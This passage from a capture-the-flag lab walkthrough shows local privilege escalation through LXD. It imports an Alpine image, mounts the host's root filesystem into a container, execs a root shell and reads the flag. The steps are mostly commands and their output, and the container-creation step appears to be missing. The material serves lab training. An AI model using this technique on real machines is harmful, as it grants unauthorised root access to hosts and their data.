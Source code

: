 Import the image as *lxc image*:

```
www-data@ubuntu:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage1
<-v3.13-x86_64-20210218_0139.tar.gz --alias myimage1
```

Confirm that the image has been imported successfully:

```
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage1 | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Dec 1, 2023 at 9:27am (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
```

Then type these commands to `init`, `config`, `start` and finally `exec` the image to create the container, mount the folder `/root` and become **root** user:

```
www-data@ubuntu:/tmp$ lxd init
ww-data@ubuntu:/tmp$ lxc config device add exploit mydevice disk source=/ path=/mnt/root/ recursive=true
<device disk source=/ path=/mnt/root/ recursive=true
Device mydevice added to exploit
www-data@ubuntu:/tmp$ lxc start exploit
www-data@ubuntu:/tmp$ lxc exec exploit /bin/sh

~ # whoami;id
root
uid=0(root) gid=0(root)

~ # cd /mnt/root/root
```

Navigate to `/mnt/root/root/` directory and explore the hidden file inside:

```
/mnt/root/root # ls -l         
ls -l
total 4
-rw-r--r--    1 root     root          1003 Oct  8  2019 [REDACTED]
/mnt/root/root # cat [REDACTED]
cat [REDACTED]

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
```